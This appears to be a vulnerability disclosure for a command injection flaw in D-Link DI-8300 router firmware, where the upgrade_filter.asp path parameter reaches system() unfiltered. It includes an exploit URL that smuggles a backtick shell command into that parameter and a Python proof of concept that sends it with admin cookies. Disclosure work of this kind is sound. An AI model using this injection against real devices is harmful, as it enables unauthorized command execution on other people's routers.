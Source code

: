 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the upgrade_filter_asp function, parameters are passed through the GET request mode for the path variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the path parameter and check whether the first seven characters are "http://". If yes, concatenate the command and run the system function without filtering the following characters.

![Pasted image 20240806095532](https://github.com/user-attachments/assets/e5adcbee-a13d-41e5-85a6-649ebff9bc1b)
```
url:
http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/002.txt`
```
![Pasted image 20240806100619](https://github.com/user-attachments/assets/2a9c71a6-5592-4e77-9817-cf2345cb6eda)

Check the firmware shell. The command is successfully executed

![Pasted image 20240806100840](https://github.com/user-attachments/assets/3dab3ce9-12e2-46ba-a5d5-b8f64dca1901)
# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`ps%20%3E%20/jiawen.txt`"

url = "http://"+ip+"/upgrade_filter.asp?path=http://"+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```

